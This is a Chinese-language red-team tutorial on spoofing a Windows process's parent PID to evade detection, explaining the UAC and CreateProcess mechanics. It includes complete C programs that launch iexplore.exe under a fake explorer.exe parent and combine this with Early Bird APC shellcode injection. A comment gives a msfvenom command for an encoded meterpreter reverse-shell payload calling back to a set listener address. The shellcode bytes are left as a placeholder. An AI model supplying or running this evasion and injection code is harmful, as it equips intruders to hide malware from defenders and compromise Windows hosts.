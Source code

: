 ```yaml
---
description: fake-PPID
---
```


# 伪装PPID规避检测

## UAC创建进程的过程的疑惑

> 在触发UAC时，操作系统会创建一个名为consent.exe的进程，该进程通过白名单和用户选择来确定是否提升权限。 请求进程将要提升权限的进程的commandline和程序路径通过LPC\(Local Procedure Call\)接口传递给appinfo的RAiluanchAdminProcess函数，该函数首先会验证传入程序是否在白名单内同时判断是否弹出UAC窗口，这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程。

  
  
触发UAC创建进程的过程中,我们可以知道实际上高权限的进程是由consent.exe进程创建的，但实际上父进程并非指向consent.exe任就是UAC发起者的进程ID，那么我们是否可以自己指定父进程，增加判断成本从而使蓝队脑阔疼。

![](../.gitbook/assets/image%20%2819%29.png)

![&#x7236;&#x8FDB;&#x7A0B;&#x5E76;&#x975E;consent.exe](../.gitbook/assets/image%20%2845%29.png)

## CreateProcessAsUser函数

最终创建函数的是由consent.exe调用的CreateProcessAsUser函数，那我们猜测是否是consent.exe调用时指定了某些参数，导致PPID的更换。

* 在官方文档中给出了如下原型:

```text
BOOL CreateProcessAsUserA(
  HANDLE                hToken,
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

查询官方文档得知，如果在dwCreationFlags中EXTENDED\_STARTUPINFO\_PRESENT标准，那么lpStartupInfo传入的就会是一个名为STARTUPINFOEXA的结构体，而这个结构体能指定父进程的相关信息，最终传入的PPID会被写入到新进程\_eprocess结构体的InheritedFromUniqueProcessId位置。

```text
typedef struct _STARTUPINFOEXA {
  STARTUPINFOA                 StartupInfo;
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXA, *LPSTARTUPINFOEXA;
```

根据查询的文档,CreateProcess函数同样也支持STARTUPINFOEXA结构体。

## 伪装PPID创建iexplore.exe

* 寻找explorer.exe的pid

```text
DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}
```

```text
int main() {

    STARTUPINFOEXA siex = {0};
    SIZE_T Size;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE hFake = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &Size);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, Size);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &Size);

    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hFake, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, NULL);
    //PS:这里有个小坑，需要开启继承句柄
    return 0;
}
```

![](../.gitbook/assets/image%20%2832%29.png)

## 与进程注入技术EARLYBIRD搭配使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.109 EXITFUNC=thread -f
    unsigned char shellcode[] = ("XXX");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE expHandle = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);

    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2846%29.png)

![](../.gitbook/assets/image%20%2841%29.png)

![](../.gitbook/assets/image%20%2839%29.png)

* github:[https://github.com/idiotc4t/FakePPID](https://github.com/idiotc4t/FakePPID)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}



